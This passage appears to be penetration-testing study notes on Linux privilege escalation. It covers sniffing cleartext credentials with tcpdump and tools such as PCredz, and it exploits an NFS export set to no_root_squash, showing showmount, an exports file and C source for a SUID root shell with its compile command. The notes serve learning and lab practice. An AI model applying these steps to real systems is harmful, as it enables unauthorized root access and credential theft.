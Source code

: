 ## Miscellaneous Techniques
### Passive Traffic Capture
- If tcpdump is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. 
- Several tools exist, such as [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) that can be used to examine data being passed on the wire. 

### Weak NFS Privileges

in the attacker machine
```shell
# lists the NFS server's export list
showmount -e 10.129.2.12
```
in the victim machine 
```
cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

| Option         | Description                                                                                                                                                                   |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| root_squash    | If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set. |
| no_root_squash | Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.|


```
$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}


/tmp$ gcc shell.c -o shell
```
